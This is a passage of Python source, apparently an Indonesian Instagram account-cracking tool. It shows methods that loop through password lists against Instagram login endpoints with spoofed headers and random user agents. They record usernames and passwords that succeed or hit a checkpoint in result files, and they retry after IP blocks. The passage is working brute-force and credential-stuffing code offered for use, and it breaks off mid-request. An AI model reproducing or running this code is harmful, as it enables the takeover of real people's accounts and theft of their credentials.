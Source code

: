 				if "userId" in str(xc_team) or "sessionid" in ses.cookies.get_dict():
					nama,pengikut,mengikut,postingan=self.APIinfo(user)
					print("\r                                       ")
					adit=f'\rNama      : {nama}\nUsername  : {user}\nPassword  : {pw}\nPengikut  : {pengikut}\nMengikuti : {mengikut}\nPostingan : {postingan}\nUser-Agent: {uazku()}'
					pepekXD = nel(adit, style='green')
					print('\n')
					cetak(nel(pepekXD,style='',title='\r[green]Account Login Method API V2[white]'))
					open(f"result/success-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
					success.append(user)
					break
				elif 'href="https://www.instagram.com/challenge/action/"' in str(xc_team):
					nama,pengikut,mengikut,postingan=self.APIinfo(user)
					print("\r                                       ")
					adit=f'\rNama      : {nama}\nUsername  : {user}\nPassword  : {pw}\nPengikut  : {pengikut}\nMengikuti : {mengikut}\nPostingan : {postingan}\nUser-agent: {uazku()}'
					pepekXD = nel(adit, style='yellow')
					print('\n')
					cetak(nel(pepekXD,style='', title='\r[yellow]Account Check Method API V2[white]'))
					open(f"result/checkpoint-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
					checkpoint.append(user)
					break
				elif 'ip_block' in str(respon.text):
					sys.stdout.write(f'\r{P}[{M}#{P}] crack {M}spamIP {P}{loop}/{len(internal)}{P} OK-:{H}{len(success)} {N}CP-:{K}{len(checkpoint)} {P}');sys.stdout.flush()
					time.sleep(10)
					self.crackAPIversi2(user,pas)
				else:
					continue
			loop+=1
		except:
			self.crackAPIversi2(user,pas)
	
	def crackAJAX(self,user,pas):
		global loop,success,checkpoint
		ses = requests.Session()
		uas = random.choice(UaNgentodMuach)
		sys.stdout.write(f'\r{P}[{H}#{P}] crack {H}stabil {P}{loop}/{len(internal)}{P} OK-:{H}{len(success)} {N}CP-:{K}{len(checkpoint)} {P}');sys.stdout.flush()
		try:
			for pw in pas:
				xxcteam = random.randint(1000000000, 99999999999)
				jam = calendar.timegm(current_GMT)
				p = ses.get(str(random.choice([
				      "https://www.secure.instagram.com/accounts/login/",
				      "https://www.secure.instagram.com/accounts/login/?force_classic_login=&",
				      "https://www.secure.instagram.com/accounts/login/?force_classic_login&hl=en",
				      "https://www.secure.instagram.com/accounts/onetap/",
				      "https://www.secure.instagram.com/accounts/onetap/?next=%2F",
				      "https://www.secure.instagram.com/accounts/onetap/?next=/"
				      ])))
				head = {
				      "Host": "www.secure.instagram.com",
				      "Connection": "keep-alive",
				      "Content-Length": "318",
				      "X-IG-WWW-Claim": "0",
				      "X-Instagram-AJAX": "9080db6b6a51",
				      "Content-Type": "application/x-www-form-urlencoded",
				      "Accept": "*/*",
				      "X-Requested-With": "XMLHttpRequest",
				      "X-ASBD-ID": "198387",
				      "User-Agent": uas,
				      "X-CSRFToken": p.cookies['csrftoken'],
				      "X-IG-App-ID": "1217981644879628",